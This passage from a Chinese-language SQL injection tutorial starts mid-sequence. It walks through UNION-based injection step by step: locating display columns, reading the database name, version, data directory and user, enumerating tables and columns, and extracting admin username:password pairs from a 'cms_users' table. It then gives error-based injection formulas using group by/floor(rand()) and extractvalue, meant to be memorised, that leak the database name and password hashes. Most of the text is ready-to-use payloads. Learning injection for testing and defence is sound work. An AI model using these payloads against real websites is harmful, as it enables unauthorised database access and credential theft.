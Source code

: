3.判断显示位置,看页面中哪给数字显示出来了

```txt
?id=32 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15
```

4.查看数据库中敏感信息

```txt
?id=32 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,database(),12,13,14,15
?id=32 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,version(),12,13,14,15
?id=32 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,@@datadir,12,13,14,15
?id=32 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,current_user(),12,13,14,15
```

5.获取管理员信息,  库-->表-->列--->数据

```txt
?id=-33 UNION SELECT 1,2,database(),4,5,6,7,8,9,10,11,12,13,14,15   #获取库名cms

?id=-33 UNION SELECT 1,2,hex(group_concat(table_name)),4,5,6,7,8,9,10,11,12,13,14,15 from information_schema.tables where table_schema=database()   #获取表名 ，可以不加hex()转16进制

?id=-33 UNION SELECT 1,2,hex(group_concat(column_name)),4,5,6,7,8,9,10,11,12,13,14,15 from information_schema.columns where table_schema=database() and table_name='cms_users' #获取列名

?id=-33 UNION SELECT 1,2,hex(concat(username,0x3a,password)),4,5,6,7,8,9,10,11,12,13,14,15 from cms_users #获取数据
```



## 报错注入

适用于数据库中SQL 语句的报错信息会显示在页面中，可以利用报错信息进行注入。 

报错注入的原理，是在错误信息中执行SQL 语句。

触发报错的方式有很多，具体细节也不尽相同。此处建议直接背公式，将公式带换掉 1=1 的 部分。

> group by

```sql
?id=33 and (select 1 from (select count(*),concat(0x5e,(select database()),0x5e,floor(rand()*2))x from
information_schema.tables group by x)a)

?id=33 and (select 1 from (select count(*),concat(0x5e,(select password from cms_users limit
0,1),0x5e,floor(rand()*2))x from information_schema.tables group by x)a)
```

> extractvalue

```sql
?id=33 and extractvalue(1,concat(0x5e,(select database()),0x5e))

#如果显示不下，通过substr进行字符串截取显示
?id=33 and extractvalue(1,concat(0x5e,substr((select password from cms_users),17,32),0x5e))
```
